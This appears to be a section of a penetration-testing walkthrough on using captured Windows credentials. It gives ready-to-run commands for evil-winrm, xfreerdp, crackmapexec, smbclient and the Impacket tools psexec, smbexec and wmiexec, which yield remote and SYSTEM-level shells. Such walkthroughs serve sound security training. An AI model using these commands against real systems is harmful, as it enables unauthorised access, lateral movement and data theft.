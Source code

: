 ### **WINRM**

WinRM is a management protocol used to remotely communicate with another system in the Windows realm. You can pass  
the password to this service to gain access if it’s enabled:  
`evil-winrm -i 'TARGET-IP' -u 'USERNAME' -p 'PASSWORD'`  
In this scenario we have a password which we passed to WinRM using the ‘evil-winrm’ tool.

### **RDP**

RDP is a protocol to remotely control desktop computers. Once again we can pass our password to this service if enabled, In this scenario we’ve used ‘xfreerdp’ to talk with the RDP protocol and gained access to the system through a graphical  
interface.  
`xfreerdp /v:TARGET-IP /u:USERNAME /p:'PASSWORD' /drive:linux,/home/kali/yo/SessionGopher`

### **MSSQL**

We can also pass the password to MSSQL service if enabled and authorized to exfiltrate sensitive information out of the  
network or to execute OS commands. To check if MSSQL is enabled on the target system:  
`crackmapexec mssql TARGET-IP -u 'USERNAME' -p 'PASSWORD'`

### **SMB**

SMB is a file sharing protocol widely used in the Windows realm. To check if authorized:  
`crackmapexec smb TARGER-IP -u 'USERNAME' -p 'PASSWORD'`

To list shared folders:  
`smbclient -U 'USERNAME' -L \\TARGET-IP`

And finally to connect to the target share which in our case is ‘Users’:  
`smbclient -U 'USERNAME' \\\\TARGET-IP\\SHARE`

### **INTERACTIVE-SHELL**


Several tools can provide an interactive shell by exploiting protocols like SMB. One commonly used tool is psexec from the Impacket toolkit:

`/usr/bin/impacket-psexec 'USERNAME:PASSWORD@TARGET-IP'`  
**WHAT IT DOES:** The tool locates a writable SMB share on the target, uploads a payload (typically a service binary), creates a new service to run it, and starts that service. This process gives us a shell with NT AUTHORITY\SYSTEM privileges.

There are also other tools that can do magic like that:  
`impacket-smbexec 'USERNAME:PASSWORD'@TARGET-IP`

And ‘wmiexec’:  
`impacket-wmiexec 'USERNAME:PASSWORD'@TARGET-IP`